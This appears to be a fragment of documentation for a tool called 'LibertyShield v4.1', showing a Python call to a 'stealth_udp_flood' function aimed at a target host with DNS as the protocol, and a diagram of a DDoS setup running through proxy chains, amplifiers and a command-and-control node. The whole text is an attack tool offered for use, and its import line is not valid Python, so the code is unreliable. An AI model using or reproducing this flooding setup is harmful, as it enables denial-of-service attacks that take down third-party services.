 # LibertyShield v4.1 Documentation

## Enhanced UDP Dispatch
```python
from LibertyShield_v4.1 import UDPEnhancements
UDPEnhancements.stealth_udp_flood("target.com", 80, 60, protocol='dns')


[Client] --> [Proxy Chain] --> [Amplifiers] --> [Target]
                ^
                |
           [Command & Control]

